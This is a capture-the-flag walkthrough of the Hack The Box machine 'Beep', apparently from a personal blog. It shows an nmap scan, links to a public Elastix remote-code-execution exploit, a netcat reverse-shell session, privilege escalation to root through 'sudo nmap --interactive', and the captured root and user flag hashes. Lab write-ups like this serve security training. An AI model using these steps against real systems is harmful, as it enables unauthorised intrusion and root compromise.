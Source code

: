```yaml
---
categories: [hackthebox , walkthrough]
tags: [PrivEsc, Public Exploit]
---
```

# Beep
### Let see the IP Address first →

```bash
IP : 10.10.10.7
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Beep]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.10.10.7      
[sudo] password for kali: 
Starting Nmap 7.94 ( https:/nmap.org ) at 2023-07-19 19:47 IST
Nmap scan report for 10.10.10.7
Host is up (0.19s latency).
Not shown: 65520 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp   open  smtp?
|_smtp-commands: Couldnt establish connection on port 25
80/tcp   open  http       Apache httpd 2.2.3
|_http-title: Did not follow redirect to https:/10.10.10.7/
|_http-server-header: Apache/2.2.3 (CentOS)
110/tcp  open  pop3?
111/tcp  open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp  open  imap?
443/tcp  open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2023-07-19T14:49:38+00:00; +2s from scanner time.
|_http-title: Elastix - Login page
| http-robots.txt: 1 disallowed entry 
|_/
878/tcp  open  status     1 (RPC #100024)
993/tcp  open  imaps?
995/tcp  open  pop3s?
3306/tcp open  mysql      MySQL (unauthorized)
4190/tcp open  sieve?
4445/tcp open  upnotifyp?
4559/tcp open  hylafax?
5038/tcp open  asterisk   Asterisk Call Manager 1.1
Service Info: Host: 127.0.0.1

Host script results:
|_clock-skew: 1s
```

## Web Enumeration ➡️

This site doesn’t work with that old TLS 1.2 version of firefox browser so I redirected the site with the help of burpuite →

![Untitled](/Vulnhub-Files/img/Beep/Untitled.png)

![Untitled](/Vulnhub-Files/img/Beep/Untitled%201.png)

Now lets see the site →

![Untitled](/Vulnhub-Files/img/Beep/Untitled%202.png)

Now I recon about elastix exploit and I found one exploit interesting which leads to RCE directly so let’s try it out now → [Exploit](https://www.exploit-db.com/exploits/18650)

But this exploit needs modification so I find this exploit modified from this [site](https://github.com/infosecjunky/FreePBX-2.10.0---Elastix-2.2.0---Remote-Code-Execution/) and use it →

![Untitled](/Vulnhub-Files/img/Beep/Untitled%203.png)

![Untitled](/Vulnhub-Files/img/Beep/Untitled%204.png)

In response to that I got a reverse shell as directed and after following this exploit path I got root too →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Beep]
└─$ nc -lvnp 4444
listening on [any] 4444 ...

connect to [10.10.14.213] from (UNKNOWN) [10.10.10.7] 38362
which python
/usr/bin/python
python -c 'import pty;pty.spawn("/bin/bash")'
bash-3.2$ whoami
whoami
asterisk
bash-3.2$ pwd
pwd
/tmp
bash-3.2$ id
id
uid=100(asterisk) gid=101(asterisk)
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http:/www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# whoami
whoami
root
sh-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
sh-3.2# cd /root
cd /root
sh-3.2# ls -al
ls -al
total 16308
drwxr-x---  2 root root     4096 Jul 16  2019 .
drwxr-xr-x 22 root root     4096 Jul 19 13:15 ..
-rw-------  1 root root     6025 Apr  7  2017 anaconda-ks.cfg
-rw-------  1 root root     1067 Aug 25  2017 .bash_history
-rw-r--r--  1 root root       24 Jan  6  2007 .bash_logout
-rw-r--r--  1 root root      191 Jan  6  2007 .bash_profile
-rw-r--r--  1 root root      176 Jan  6  2007 .bashrc
-rw-r--r--  1 root root      100 Jan  6  2007 .cshrc
-r-xr-xr-x  1 root root   190461 Aug 10  2011 elastix-pr-2.2-1.i386.rpm
-rw-r--r--  1 root root    18433 Apr  7  2017 install.log
-rw-r--r--  1 root root        0 Apr  7  2017 install.log.syslog
-rw-r--r--  1 root root        1 Apr  7  2017 postnochroot
-rw-------  1 root root       33 Jul 19 13:15 root.txt
-rw-r--r--  1 root root      129 Jan  6  2007 .tcshrc
-r-xr-xr-x  1 root root 16358730 Oct 31  2011 webmin-1.570-1.noarch.rpm
sh-3.2# cat root.txt
cat root.txt
e9cbc82da8917eed8f46488876238fa2
sh-3.2# ls -al /home
ls -al /home
total 28
drwxr-xr-x  4 root       root       4096 Apr  7  2017 .
drwxr-xr-x 22 root       root       4096 Jul 19 13:15 ..
drwxrwxr-x  2 fanis      fanis      4096 Apr  7  2017 fanis
drwx------  2 spamfilter spamfilter 4096 Apr  7  2017 spamfilter
sh-3.2# cd /home/fanis 
cd /home/fanis
sh-3.2# ls -al
ls -al
total 32
drwxrwxr-x 2 fanis fanis 4096 Apr  7  2017 .
drwxr-xr-x 4 root  root  4096 Apr  7  2017 ..
-rw------- 1 fanis fanis  114 Apr  7  2017 .bash_history
-rw-r--r-- 1 fanis fanis   33 Apr  7  2017 .bash_logout
-rw-r--r-- 1 fanis fanis  176 Apr  7  2017 .bash_profile
-rw-r--r-- 1 fanis fanis  124 Apr  7  2017 .bashrc
-rw-rw-r-- 1 fanis fanis   33 Jul 19 13:15 user.txt
sh-3.2# cat user.txt
cat user.txt
e11bbf4e23bcd880ec590402fa0c9a8e
sh-3.2#
```